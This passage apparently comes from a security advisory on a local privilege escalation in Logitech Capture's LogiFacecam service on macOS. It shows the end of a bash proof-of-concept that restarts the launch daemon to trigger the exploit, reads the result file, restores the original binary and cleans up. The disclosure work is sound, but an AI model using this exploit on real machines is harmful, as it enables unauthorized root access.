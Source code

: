 ```bash
/bin/echo "[i] Simulating a reboot (Needs password and saves you having to reboot your machine) (sudo launchctl kickstart -k system/com.Logitech.LogiFacecam.Service)"
/usr/bin/sudo /bin/launchctl kickstart -k system/com.Logitech.LogiFacecam.Service

/bin/echo "[i] Sleeping for 5 seconds"
/bin/sleep 5

/bin/echo "[i] Viewing the result of LPE"
/bin/cat $LPE_OUTFILE

/bin/echo "[i] Restoring the binary"
/bin/mv "/Library/Application Support/LogiFacecam.bundle/Contents/MacOS/LogiFacecamService.bak" "/Library/Application Support/LogiFacecam.bundle/Contents/MacOS/LogiFacecamService" 

/bin/echo "[i] Cleaning up"
/bin/rm -rf /tmp/${DEMO_NAME}*

/bin/echo "[i] Пока Пока !!!"
```



## Further Information
- [Logitech Capture](https://www.logitech.com/en-gb/software/capture.html)
- [Logitech Capture Direct Download](https://download01.logi.com/web/ftp/pub/techsupport/capture/Capture_2.08.12.zip)
- [Creating Launch Daemons and Agents -- Apple](https://developer.apple.com/library/archive/documentation/MacOSX/Conceptual/BPSystemStartup/Chapters/CreatingLaunchdJobs.html)

## Impact

Elevation of privileges